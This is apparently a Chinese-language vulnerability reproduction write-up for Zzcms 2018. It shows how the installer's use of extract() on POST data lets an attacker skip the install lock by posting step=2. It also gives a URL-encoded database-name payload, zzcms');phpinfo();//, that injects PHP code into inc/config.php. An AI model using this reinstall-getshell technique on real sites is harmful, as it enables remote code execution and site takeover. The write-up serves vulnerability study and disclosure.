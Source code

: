 ```yaml
---
title: Zzcms 2018 最新版重装getshell
id: zhfly3311
---
```


# Zzcms 2018 最新版重装getshell

## 一、漏洞简介

源码信息：Zzcms 2018

问题文件： \zzcms\install\index.php

漏洞类型：重装getshell

站点地址：http://www.zzcms.net/

## 二、漏洞影响

Zzcms2018

## 三、复现过程

### 0x01攻击分析

在文件\ zzcms \ install \ index.php文件的第9-10行中$ _POST使用了提取变量注册的方法进行变量的初始化。

```
if($_POST) extract($_POST, EXTR_SKIP);//把数组中的键名直接注册为了变量。就像把$_POST[ai]直接注册为了$ai。
if($_GET) extract($_GET, EXTR_SKIP);
$submit = isset($_POST['submit']) ? true : false;
$step = isset($_POST['step']) ? $_POST['step'] : 1; 
```

分析代码可以知道，setp为空的时候，初始化初始化的变量1，然后进入到step_1.php，有install.lock，就不能重装，所以我们这里直接POST step = 2绕过

```
<?php
switch($step) {
        case '1'://协议
                include 'step_'.$step.'.php';
        break;
        case '2'://环境
                $pass = true;
                $PHP_VERSION = PHP_VERSION;
                if(version_compare($PHP_VERSION, '4.3.0', '<')) {
                        $php_pass = $pass = false;
                } else {
                        $php_pass = true;
                }
                $PHP_MYSQL = '';
                if (extension_loaded('mysqli') || extension_loaded('mysql')) {
                        $PHP_MYSQL = '支持';
                        $mysql_pass = true;
                } else {
                        $PHP_MYSQL = '不支持';
                        $mysql_pass = $pass = false;
                }
        $PHP_GD = '';
        if(function_exists('imagejpeg')) $PHP_GD .= 'jpg';
        if(function_exists('imagegif')) $PHP_GD .= ' gif';
        if(function_exists('imagepng')) $PHP_GD .= ' png';
                if($PHP_GD) {
                        $gd_pass = true;
                } else {
                        $gd_pass = false;
                }
                $PHP_URL = @get_cfg_var("allow_url_fopen");//是否支持远程URL，采集有用
                $url_pass = $PHP_URL ? true : false;
                include 'step_'.$step.'.php';
        break;
        case '3'://查目录属性
                include 'step_'.$step.'.php';
        break;
        case '4'://建数据库
                include 'step_'.$step.'.php';
        break;
        case '5'://安装进度
                function dexit($msg) {
                        echo '<script>alert("'.$msg.'");window.history.back();</script>';
                        exit;
                }

```
 $conn=connect($db_host,$db_user,$db_pass,'',$db_port);
            if(!$conn) dexit('无法连接到数据库服务器，请检查配置');
            $db_name or dexit('请填写数据库名');
            if(!select_db($db_name)) {
                    if(!query("CREATE DATABASE $db_name")) dexit('指定的数据库不存在\n\n系统尝试创建失败，请通过其他方式建立数据库');
            }
            $url=str_replace("'",'',$url);
            //保存配置文件
            $fp="../inc/config.php";
            $f = fopen($fp,'r');
            $str = fread($f,filesize($fp));
            fclose($f);
            $str=str_replace("define('sqlhost','".sqlhost."')","define('sqlhost','$db_host')",$str) ;
            $str=str_replace("define('sqlport','".sqlport."')","define('sqlport','$db_port')",$str) ;
            $str=str_replace("define('sqldb','".sqldb."')","define('sqldb','$db_name')",$str) ;
            $str=str_replace("define('sqluser','".sqluser."')","define('sqluser','$db_user')",$str) ;
            $str=str_replace("define('sqlpwd','".sqlpwd."')","define('sqlpwd','$db_pass')",$str) ;
            $str=str_replace("define('siteurl','".siteurl."')","define('siteurl','$url')",$str) ;
            $str=str_replace("define('logourl','".logourl."')","define('logourl','$url/image/logo.png')",$str) ;
            $f=fopen($fp,"w+");//fopen()的其它开关请参看相关函数
            fputs($f,$str);//把替换后的内容写入文件
            fclose($f);
            //创建数据
            include 'step_'.$step.'.php';
            break;
    case '6'://安装成功
            include 'step_'.$step.'.php';
    break; 
``` `}` 
```

![image](../img/d9b806c63142609cdc2c7ed422b3bb2f.png)

```
<?php
if(@$step==3){
$token = md5(uniqid(rand(), true));    
$_SESSION['token']= $token; 
?> 
```

step_3.php文件中有一个创建的令牌，后面创建数据库的时候验证，所以从步骤= 2，一步一步偶。

从上面的代码文中知道$ url = str_replace（“'”，“，$ url）; 把单引号替换为空了，然后的fputs写INC / config.php的配置文件中所以这里通过$ DB_NAME来写到配置文件。

### 0×02复漏洞现

在数据库配置页面，数据库名填写：

zzcms%27%29%3bphpinfo%28%29%3b%2f%2f 本机创建zzcms');phpinfo();//的数据库

![image](../img/c25c1c0901d3e8ebfd7777d00017e639.png)

因为本地有JS验证，所以先把数据库名改成123，bp抓到包以后在修改成zzcms%27%29%3bphpinfo%28%29%3b%2f%2f

![image](../img/2b6d082c24895074205cd04feb044f02.png)

成功写入到配置文件

![image](../img/94d164e53287a342c29350fc20fc350a.png)

![image](../img/ddaae8f11f5fa37c814e77b6edd2b310.png)

![image](../img/af8b7558d1336948d8a3358f0b663500.png)